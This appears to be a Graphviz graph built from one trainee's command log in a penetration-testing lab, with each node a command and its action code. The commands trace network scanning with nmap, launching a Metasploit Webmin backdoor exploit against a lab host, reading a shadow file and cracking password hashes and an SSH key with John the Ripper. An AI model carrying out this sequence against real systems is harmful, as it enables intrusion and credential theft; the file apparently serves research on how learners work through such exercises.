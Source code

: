 // creating graph for user: 54
digraph {
	node [shape=box]
	1 [label="nmap -p 60000-65536 A0 A1 "]
	2 [label="nmap -p 60000-65535 A0 A1 "]
	3 [label="nmap 172.18.1.5 -p 60000-65535 A0 M0 A1 "]
	4 [label="nmap 172.18.1.5 -p 40000-60000 V0 "]
	5 [label="nmap 172.18.1.5 -p 20000-40000 V0 "]
	6 [label="nmap 172.18.1.5 -p 1000-20000 V0 "]
	10 [label="man msfconsole A2 M2 "]
	11 [label="msfconsole V2 "]
	13 [label="nmap 172.18.1.5 -p 10000 V0 "]
	14 [label="man nmap A0 A1 "]
	15 [label="nmap 172.18.1.5 -p 10000 -sV A1 M1 "]
	18 [label="use exploit/linux/http/webmin_backdoor A8 M8 "]
	19 [label="ls -a A10 "]
	21 [label="ls A10 "]
	23 [label="ls A10 "]
	24 [label="ls -a A10 "]
	26 [label="search webmin A3 M3 "]
	27 [label="cd exploit V8 "]
	28 [label="search exploit/linux/http V8 "]
	29 [label="search exploit/linux/http/webmin V8 "]
	30 [label="info exploit/linux/http/webmin_packageup_rce V8 "]
	31 [label="searchsploit webmnin A1 A3 "]
	35 [label="ls /usr/share/metasploit-framework A10 "]
	36 [label="ls /usr/share/metasploit-framework/modules A10 "]
	37 [label="ls /usr/share/metasploit-framework/modules/exploits V8 "]
	38 [label="ls /usr/share/metasploit-framework/modules/exploits/linux V8 "]
	39 [label="ls /usr/share/metasploit-framework/modules/exploits/linux/http V8 "]
	40 [label="ls /usr/share/metasploit-framework/modules/exploits/linux V8 "]
	41 [label="msfconsole V2 "]
	42 [label="search webmin V3 "]
	43 [label="search webmin_back V3 "]
	44 [label="search webmin_backdoor V3 "]
	45 [label="use exploit/linux/http/webmin_backdoor.rb V8 "]
	46 [label="show targets A5 "]
	47 [label="show options A5 M5 "]
	49 [label="show options V5 "]
	50 [label="set LHOST 172.18.1.5 A6 M6 "]
	51 [label="show options V5 "]
	52 [label="set LHOST V6 "]
	54 [label="msfconsole V2 "]
	55 [label="use exploit/linux/http/webmin_backdoor.rb V8 "]
	56 [label="show options V5 "]
	57 [label="set RHOSTS 172.18.1.5 V6 "]
	58 [label="show options V5 "]
	59 [label="exploit V8 "]
	61 [label="set LHOST 0.0.0.0 V6 "]
	62 [label="exploit V8 "]
	63 [label="run V8 "]
	64 [label="show options V5 "]
	65 [label="show missing A5 "]
	66 [label="show targets A5 "]
	67 [label="check 172.18.1.5 A7 "]
	68 [label="show targets A5 "]
	69 [label="show options V5 "]
	70 [label="set target 0 A6 "]
	71 [label="show options V5 "]
	72 [label="run V8 "]
	73 [label="check 172.18.1.5 A7 "]
	75 [label="use exploit/linux/http/webmin_backdoor.rb V8 "]
	76 [label="check 172.18.1.5 A7 "]
	77 [label="show options V5 "]
	78 [label="show targets A5 "]
	79 [label="set target 1 A6 "]
	80 [label="check 172.18.1.5 A7 "]
	82 [label="msfconsole V2 "]
	83 [label="use exploit/linux/http/webmin_backdoor V8 "]
	84 [label="show targets A5 "]
	85 [label="show options V5 "]
	86 [label="check 172.18.1.5 A7 "]
	88 [label="set LHOST 10.1.135.83 V6 "]
	89 [label="check 172.18.1.5 A7 "]
	90 [label="run V8 "]
	91 [label="set RHOSTS 172.18.1.5 V6 "]
	92 [label="run V8 "]
	93 [label="nmap -sn 172.18.1.5/24 V0 "]
	95 [label="nmap 172.18.1.1 A0 A1 "]
	97 [label="nmap 147.251.6.10 A0 A1 "]
	98 [label="show options V5 "]
	100 [label="msfconsole V2 "]
	101 [label="use exploit/linux/http/webmin/backdoor V8 "]
	102 [label="use exploit/linux/http/webmin/backdoor.rb V8 "]
	103 [label="use exploit/linux/http/webmin/backdoor.br V8 "]
	104 [label="use exploit/linux/http/webmin_backdoor V8 "]
	105 [label="show options V5 "]
	106 [label="set RHOSTS 172.18.1.5 V6 "]
	108 [label="set LHOST 10.1.135.83 V6 "]
	109 [label="run V8 "]
	110 [label="check 172.18.1.5 A7 "]
	111 [label="nmap 10.1.17.4 A0 A1 "]
	113 [label="cat shadow A1 A9 A11 A12 A17 "]
	115 [label="ls A10 "]
	117 [label="ls A10 "]
	118 [label="cat mypasswd.txt A1 A9 A11 A12 A17 "]
	119 [label="john mypasswd.txt A14 "]
	120 [label="john shadow A14 "]
	122 [label="cat shadow A1 A9 A11 A12 A17 "]
	124 [label="cat shadow A1 A9 A11 A12 A17 "]
	126 [label="cat shadow A1 A9 A11 A12 A17 "]
	128 [label="john mypasswd.txt A14 "]
	129 [label="run V8 "]
	136 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	184 [label="john id_rsa A14 "]
	185 [label="john --format=SSH id_rsa A14 "]
	186 [label="ssh2john id_rsa > id_rsa.hash A14 A16 "]
	187 [label="cat id_rsa A12 M12 A17 "]
	188 [label="/usr/sbin/ss2john A14 "]
	189 [label="/usr/sbin/ssh2john A14 A16 "]
	190 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	191 [label="/usr/share/john/ssh2john.py id_rsa > id_rsa.hash A14 A16 "]
	192 [label="cat id_rsa.hash V12 "]
	193 [label="john id_rsa.hash A14 "]
	194 [label="ls /usr/share A10 "]
	195 [label="ls /usr/share/wordlists A10 "]
	196 [label="john id_rsa.hash --wordlist=/usr/share/wordlists A14 M14 "]
	197 [label="john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt V14 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 21 [constraint=false]
	21 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 95 [constraint=false]
	95 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 113 [constraint=false]
	113 -> 115 [constraint=false]
	115 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 122 [constraint=false]
	122 -> 124 [constraint=false]
	124 -> 126 [constraint=false]
	126 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 136 [constraint=false]
	136 -> 184 [constraint=false]
	184 -> 185 [constraint=false]
	185 -> 186 [constraint=false]
	186 -> 187 [constraint=false]
	187 -> 188 [constraint=false]
	188 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 197 [constraint=false]
	rankdir=LR
}
